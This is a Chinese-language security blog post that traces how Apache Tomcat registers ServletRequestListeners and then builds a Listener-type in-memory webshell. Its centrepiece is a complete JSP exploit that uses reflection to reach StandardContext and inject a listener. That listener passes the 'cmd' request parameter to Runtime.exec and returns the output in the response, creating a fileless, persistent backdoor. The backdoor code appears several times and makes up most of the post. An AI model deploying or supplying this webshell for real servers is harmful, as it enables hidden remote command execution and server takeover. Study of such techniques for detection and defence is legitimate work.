### 前言

之前学了Filter型的内存马，内存马还有其他几种，现在都需要看一下，这次是Listener型内存马，其实内存马的实现都是实现一个动态注册Filter或者Listener的过程（后面还有其他类型的），在其中编写恶意方法，在调用的时候执行，实现无文件落地执行命令。

### Listener的注册流程

在Tomcat中注册一个Listener，先编写一个Listener，然后看它的被创建过程。Listener的业务对象都要实现EventListener接口，先查看下这个接口，其实接口中是没什么内容的，那就看它的实现类中，大概几百个实现类，首先确定的是，我们需要找到一个类，每次请求都会调用的。需要找的是`Servlet`关键词，下面的`ServletRequestListener`就比较适合。



进一步去查看下这个类，这里的`requestDestoryed()`应该是一个销毁的方法，`requestInitialized()`估计就是创建的时候调用的监听方法了。



自己写一个例子看看，调用的时候是否进行调用。

```java
package com.example.listenjsp;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebServlet;

public class ListenerServlet implements ServletRequestListener {
    public ListenerServlet(){}

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("调用Listener");
    }
}
```

需要在web.xml中进行配置

```java
<listener>
    <listener-class>com.example.listenjsp.ListenerServlet</listener-class>
</listener>
```

启动项目，并访问该路由。



然后就是要搞清楚它的注册过程。这里的话，在发出请求的时候，`ServletRequestEvent`应该是接收Servlet请求的参数（看名字），然后就可以看到默认调用的获取Servlet请求的方法是`getServletRequest()`



然后进入这个方法，看它的逻辑，实际上也没什么内容，需要注意的一点就是这个request变量是个用final和transient修饰的，不仅表示不能修改，而且还是不参与反序列化的一个变量。



下个断点调试下，看了下是RequestFacade这个类，但是不知道在哪里，先看看。发现点击无法跳转，应该是忘了导入包了。



导入tomcat-catalina的初始包，就可以找到了。注意不要导入spring-boot中的来使用，调试会有问题。

```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.82</version>
</dependency>
```



进去看看，这个类怎么写的，找到了我们需要的request在这里定义。还是个protect修饰的，也可以利用反射进行获取。



反射获取逻辑代码

```java
RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
requestField.setAccessible(true);
Request request = (Request) requestField.get(requestFacade);
```

获取后，后续编写执行命令的部分。

结果的话，是需要一个可以正常访问的页面的。这样Listener才可以正常注册，去监听，并携带恶意代码执行。



代码

```java
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import java.io.InputStream;
import java.lang.reflect.Field;

public class ListenerServlet implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        String cmd;
        try {
            cmd = sre.getServletRequest().getParameter("cmd");
            RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
            Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
            requestField.setAccessible(true);
            Request request = (Request) requestField.get(requestFacade);
            Response response = request.getResponse();

            if (cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                int i = 0;
                byte[] bytes = new byte[1024];
                while ((i=inputStream.read(bytes))!=-1){
                    response.getWriter().write(new String(bytes, 0, i));
                    response.getWriter().write("\r\n");
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```

### Listener注册流程分析

实际上在这里下个断点，鼠标点击跟进的话，会发现可以看到一个类，一个接口。分别是自定义的类实现的接口，另一个也是实现了`ServletRequestListener`接口



`fireRequestInitEvent`中调用了`requestInitialized`在后面，先看看这个方法前面的逻辑，做了些什么。这里可以看到是调用`getApplicationEventListeners`方法获取了我们自定义的Listener的名称。



然后走到这里，调用自定义的Listener中重写的`requestInitialized`方法，去执行命令。



然后再次下断点，在命令执行和Class处


调试，看下调用栈

```java
<init>:12, ListenerServlet (com.example.listenjsp)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
newInstance:150, DefaultInstanceManager (org.apache.catalina.core)
listenerStart:4686, StandardContext (org.apache.catalina.core)
....
    
```

listenerStart这个地方很明显是初始化Listener的，跟进去看看，是发现这里有个`findApplicationListeners`的方法是获取`listener`的，将获取到的listener整合到数组中。这里只有我创建的一个。应该是按照名字来查找的，具体的后面看看`find`的逻辑。



其实跟进去看的话，这个findApplicationListener是一个字符串数组。



至于Servlet获取Listener的方法，应当是读取web.xml这个配置文件，并将内容存入`applicationListeners[]`中。至于读取web.xml的，回头再看吧。

然后将这个获取到的listener，然后进行初始化，实例化出对象。



然后继续向下看，根据Listener不同的类型，将其加入不同的数组中，这里我们的Listener是一个监控携带请求的，所以应当归属于第一个：eventListener



然后继续走到这里，调用`getApplicationEventListeners`方法

```java
eventListeners.addAll(Arrays.asList(getApplicationEventListeners()));
```

这个方法的作用是获取applicationEventListenersList的属性，得到已经注册的Listener



大概过程就是：从配置文件中读取Listener ——>将其保存在一个数组中，并进行实例化。——>加载Listener——>再次读取，从数组对象中逐个读取——>对于每一个Listener，执行`requestInitialized()`

### 编写Listener内存马EXP

先分步编写，分别是恶意代码执行命令部分、创建Listener部分、加载Listener部分

首先执行命令的部分前面的就可以使用

```java
String cmd;
    try {
        cmd = sre.getServletRequest().getParameter("cmd");
        RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
        Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
        requestField.setAccessible(true);
        Request request = (Request) requestField.get(requestFacade);
        Response response = request.getResponse();

        if (cmd != null){
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            int i = 0;
            byte[] bytes = new byte[1024];
            while ((i=inputStream.read(bytes))!=-1){
                response.getWriter().write(new String(bytes, 0, i));
                response.getWriter().write("\r\n");
            }
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
```

基本在初始化和创建的部分都在StandardContext类中，所以要先获取这个类的对象。由于是需要获取Request对象去调用`getServletContext`方法，直接编写Java文件还需要去引入Request并且实例化一个对象，而JSP内置Reuqest，不需要这一步。所以基本上大家的做法都是直接在JSP中进行编写。

```java
<%
    ServletContext servletContext =  request.getServletContext();
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    Object[] objects = standardContext.getApplicationEventListeners();
    List<Object> listeners = Arrays.asList(objects);
    List<Object> arrayList = new ArrayList(listeners);
    arrayList.add(new ListenerShell());
    standardContext.setApplicationEventListeners(arrayList.toArray());

%>
```

前后拼凑一下就可以了

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.Arrays" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%!

    class ListenerShell implements ServletRequestListener {

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            String cmd;
            try {
                cmd = sre.getServletRequest().getParameter("cmd");
                org.apache.catalina.connector.RequestFacade requestFacade = (org.apache.catalina.connector.RequestFacade) sre.getServletRequest();
                Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
                requestField.setAccessible(true);
                Request request = (Request) requestField.get(requestFacade);
                Response response = request.getResponse();

                if (cmd != null){
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    int i = 0;
                    byte[] bytes = new byte[1024];
                    while ((i=inputStream.read(bytes)) != -1){
                        response.getWriter().write(new String(bytes,0,i));
                        response.getWriter().write("\r\n");
                    }
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }

        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>

<%
    ServletContext servletContext =  request.getServletContext();
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    Object[] objects = standardContext.getApplicationEventListeners();
    List<Object> listeners = Arrays.asList(objects);
    List<Object> arrayList = new ArrayList(listeners);
    arrayList.add(new ListenerShell());
    standardContext.setApplicationEventListeners(arrayList.toArray());

%>
```



### 总结

没有Filter内存马复杂，逻辑比较简单，就是动态注册一个Listener就可以。Filter与Listener两者不一样的地方在于，Filter是任意指定路径和文件，不存在的也可以进行命令执行，而Listener不一样，它是必须在访问正常的情况下，进行监听，才可以进行调用，进而执行命令。

### 参考资料

http://wjlshare.com/archives/1651

https://goodapple.top/archives/1355

[https://drun1baby.github.io/2022/08/27/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-04-Tomcat-%E4%B9%8B-Listener-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC](https://drun1baby.github.io/2022/08/27/Java内存马系列-04-Tomcat-之-Listener-型内存马)